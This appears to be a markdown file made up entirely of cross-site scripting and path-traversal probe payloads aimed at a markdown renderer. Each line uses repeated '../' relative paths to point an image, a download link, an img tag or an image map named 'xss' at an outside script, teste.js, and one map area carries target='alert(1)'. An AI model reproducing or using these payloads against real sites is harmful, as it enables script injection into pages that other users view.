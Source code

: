![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<a href=# download="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">Test</a>
<img referrerpolicy="no-referrer" src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/12.png" width="10" height="10" usemap="#xss"><map name="xss"><area shape="rect" coords="0,0,82,126" target="alert(1)" href="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js"></map>

